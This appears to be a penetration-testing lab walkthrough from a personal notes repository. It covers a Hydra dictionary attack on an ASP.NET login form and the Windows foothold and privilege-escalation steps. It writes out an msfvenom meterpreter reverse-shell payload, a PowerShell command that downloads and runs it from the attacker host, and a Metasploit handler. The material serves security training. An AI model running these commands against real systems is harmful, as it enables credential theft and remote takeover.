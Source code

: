 # Using Hydra to brute-force a login
Hydra is a parallelized, fast and flexible login cracker. If you don't have Hydra installed or need a Linux machine to use it, you can deploy a powerful Kali Linux
machine and control it in your browser!

Brute-forcing can be trying every combination of a password. Dictionary-attack's are also a type of brute-forcing, where we iterating through a wordlist to obtain 
the password.

```sh
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```

E.g. in our case:
```sh
hydra -v -l admin -P /usr/share/wordlists/rockyou.txt 10.10.76.78 http-post-form "/Account/login.aspx:__VIEWSTATE=%2BzSkE5rKklYx2evyff1oZJyuSWT7%2FP%2BrwCqOuY9eQFnN3I9b9H%2FemK0b4edjD%2BX4D0kYN6MJXUIltXwXt0PReeyBxoseUQg%2BlNpW6CHIGWNzl%2FGSvdwSZX179PJ%2FI3%2F64LNM7KzKj9sc4BMO83WdCE0KH%2FPjXAKd4RAQ7poy1tOiO7cd&__EVENTVALIDATION=8UPWUPAn6s7hJvO0Pl8kCCO3NAmIgs7nlpsgIlY%2FBUKl7fwtvPmUalPJ5PygYkVuz1H356PzRXwi%2FHQ3z8iJpgXHs8%2BloBQ4qlIePP6FdcvcR2qoLptuS0C5xNkNhrzvN5IJshWQx%2BF3kjK4PfMhuSyiPjbKZA2aFsYrqvz5b2BHveGR&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
```

Hydra really does have lots of functionality, and there are many "modules" available (an example of a module would be the http-post-form that we used above).
However, this tool is not only good for brute-forcing HTTP forms, but other protocols such as FTP, SSH, SMTP, SMB and more. 

Below is a mini cheatsheet:
![image](https://github.com/vivekprm/hackers-manual/assets/2403660/f462de90-f397-47e6-a840-54cf890fa28a)

# Compromise the machine
In this task, you will identify and execute a public exploit (from [exploit-db.com](http://www.exploit-db.com/)) to get initial access on this Windows machine!
Exploit-Database is a CVE (common vulnerability and exposures) archive of public exploits and corresponding vulnerable software, developed for the use of penetration 
testers and vulnerability researches. It is owned by Offensive Security (who are responsible for OSCP and Kali)

# Windows Privilege Escalation
First we will pivot from netcat to a meterpreter session and use this to enumerate the machine to identify potential vulnerabilities. We will then use this gathered 
information to exploit the system and become the Administrator.

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.221.198 LPORT=5555 -f exe > reverse.exe
```

```bat
powershell.exe -c "Invoke-WebRequest -Uri 'http://10.10.221.198:8000/reverse.exe' -OutFile 'C:\Users\Public\reverse.exe'"
.\reverse.exe
```

In another terminal open metasploit:
```sh
msf6>use exploit/multi/handler
windows/meterpreter/reverse_tcp> set PAYLOAD windows/meterpreter/reverse_tcp
```

You can run metasploit commands such as sysinfo to get detailed information about the Windows system. Then feed this information into the 
[windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) script and quickly identify any obvious vulnerabilities.

